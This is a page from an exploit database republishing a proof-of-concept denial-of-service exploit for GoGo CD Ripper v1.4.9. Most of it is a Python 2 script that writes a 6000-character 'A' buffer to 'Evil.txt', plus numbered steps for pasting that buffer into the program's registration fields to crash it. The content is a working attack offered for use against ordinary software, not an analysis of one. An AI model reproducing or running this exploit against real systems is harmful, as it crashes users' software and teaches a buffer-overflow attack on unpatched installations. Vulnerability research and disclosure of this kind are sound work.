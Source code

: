 ```yaml
---
title: GoGo CD Ripper V1.4.9 Denial of Service Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38133&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-01
fetch_date: 2025-10-04T02:50:24.428969
---
```


# GoGo CD Ripper V1.4.9 Denial of Service Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# GoGo CD Ripper V1.4.9 Denial of Service Exploit

2022-12-31 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38133
# Exploit Title: GoGo CD Ripper V1.4.9 Denial of Service Exploit
# Date: 30.12.2022
# Vendor Homepage:https://cd-mp3.org/
# Software Link:  https://download.cnet.com/Gogo-CD-To-MP3-Ripper/3001-2140_4-10330843.ht
# Exploit Author: Achilles
# Tested Version: v1.4.9
# Tested on: Windows 7 x64
#

# 1.- Run python code :GoGo.py
# 2.- Open EVIL.txt and copy content to clipboard
# 3.- Open GoGo CD Ripper and Click 'Register'
# 4.- Paste the content of EVIL.txt into the Field: 'Reg-Name and Reg-Code'
# 5.- Click 'OK' and you will see a crash.

#!/usr/bin/env python
buffer = "\x41" * 6000

try:
	f=open("Evil.txt","w")
	print "[+] Creating %s bytes evil payload.." %len(buffer)
	f.write(buffer)
	f.close()
	print "[+] File created!"
except:
	print "File cannot be created"
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)